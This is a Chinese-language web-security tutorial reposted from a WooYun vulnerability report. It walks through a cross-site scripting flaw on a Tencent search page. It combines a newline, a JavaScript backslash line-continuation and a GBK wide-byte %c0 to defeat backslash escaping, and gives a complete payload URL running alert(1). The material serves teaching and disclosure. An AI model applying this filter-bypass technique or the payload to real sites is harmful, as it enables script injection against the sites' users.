





# 7\. 宽字节、反斜线与换行符一起复仇记

> 来源：[7\. 宽字节、反斜线与换行符一起复仇记](http://www.wooyun.org/bugs/wooyun-2010-016008)

## 简要描述

这一次，3 个家伙一起上啦～

## 详细说明

1\. 实例点如下：

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138, 138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaaaaaaaaaa 
```

老规矩，继续看我们的输出。



2\. 一共有 3 处输出，位于 HTML 属性里的那一处，我们放弃了，因为双引号被灭掉了。那么还剩下 2 处。 都是位于`<script>..</script>` 里，而且挨在了一起。

3\. 先看第 2 处，是不是似曾相似啊？ 对的，教程 6 里刚刚遇到过。那就是输出在【注释】的情况。我们用换行符试试？



4\. 一条是好消息，换行可以用，一条是坏消息。。下面出现的一句坏了我们的好事。。肿么办。

5\. 这个时候，我们需要先说点 javascript 的知识。 javascript，字符串允许下面多行的写法。

```
var a="我是一个字符串\ 我还是一个字符串";
alert(a); 
```

6\. 基于这点，我们可以把缺陷点构造成下面的样子。

```
//document.getElementById("order_select").value = "aaaa\ alert(1);//";
var searchOrder = "aaaa\ alert(1);//"; 
```

那么代码构造的解析如下：



7.带着这个想法，请上我们的反斜线。。



8\. 悲剧的是，反斜线被过滤成了 2 个`\\`，这下不好办了。

9\. 还记得在教程 4 里，我们提到的宽字节用法么？说到了 `%c0` 可以吃掉`%5c`。 我们看看页面的编码。

```
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" /> 
```

gbxxx 系列的啊，窃喜中。

10\. 于是，我们的`%c0` 也加入战斗了。

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138,138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaa%c0%5c%0aalert(1);// 
```

看看源码中的输出。 `\\` 被我们变成了 `乱码+\`



11\. 此时，标点符号们正在开会，开会的主题是：“大家好，才是真的好”

## 修复方案

参加前面教程 4，5，6